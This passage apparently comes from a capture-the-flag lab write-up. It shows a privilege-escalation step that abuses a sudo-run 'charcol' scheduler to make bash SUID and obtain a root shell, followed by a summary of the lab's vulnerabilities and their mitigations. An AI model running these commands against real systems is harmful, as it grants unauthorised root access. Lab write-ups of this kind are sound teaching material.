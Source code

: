 privilege escalation:

```bash
sudo /usr/local/bin/charcol shell
charcol> auto add --schedule "* * * * *" --command "chmod u+s /usr/bin/bash" --name "suid_bash"
charcol> exit

# Wait 60 seconds
/usr/bin/bash -p

bash-5.1# id
uid=1001(mark) gid=1001(mark) euid=0(root) egid=0(root) groups=0(root),1001(mark)

bash-5.1# cat /root/root.txt
```

## Key Vulnerabilities

### 1. Stored XSS in Bug Reporting
- **Issue**: No input sanitization in bug report submission
- **Impact**: Admin session hijacking
- **Mitigation**: Implement Content Security Policy and input validation

### 2. Local File Inclusion
- **Issue**: Unsanitized `log_identifier` parameter
- **Impact**: Arbitrary file read
- **Mitigation**: Validate input against allowlist, use absolute paths

### 3. Command Injection in Image Processing
- **Issue**: `shell=True` with unsanitized user input
- **Impact**: Remote code execution
- **Mitigation**: Use `subprocess.run()` without `shell=True`, validate input types

### 4. Weak Password Hashing
- **Issue**: MD5 hashing without salt
- **Impact**: Easy password cracking
- **Mitigation**: Use bcrypt or Argon2 with unique salts

### 5. World-Readable Sensitive Files
- **Issue**: Encrypted backup readable by all users
- **Impact**: Offline brute-force attacks
- **Mitigation**: Proper file permissions (600)

### 6. Sudo Misconfiguration
- **Issue**: User can reset root utility password
- **Impact**: Privilege escalation
- **Mitigation**: Restrict sudo permissions, implement better authentication

## Timeline
